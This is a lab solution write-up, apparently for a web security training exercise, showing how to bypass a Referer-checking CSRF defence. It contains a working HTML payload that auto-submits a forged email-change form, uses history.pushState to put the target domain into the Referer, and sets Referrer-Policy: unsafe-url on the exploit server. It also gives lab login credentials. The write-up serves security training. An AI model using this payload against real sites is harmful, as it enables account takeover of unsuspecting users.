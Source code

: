 This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

change-email form requires original domain in Referer. An example to bypass this validation is:
`Referer: https://attacker.com?YOUR-LAB-ID.web-security-academy.net`


Store the following to exploit server
```js
<html>
    <body>
        <script>history.pushState('','','/?YOUR-LAB-ID.web-security-academy.net')</script>
        <form action="https://LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="test@test">
            <input type="submit" value="submit">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Ensure that exploit server returns a response with
`Referrer-Policy: unsafe-url` as many browsers now strip the query string from the Referer header by default as a security measure.
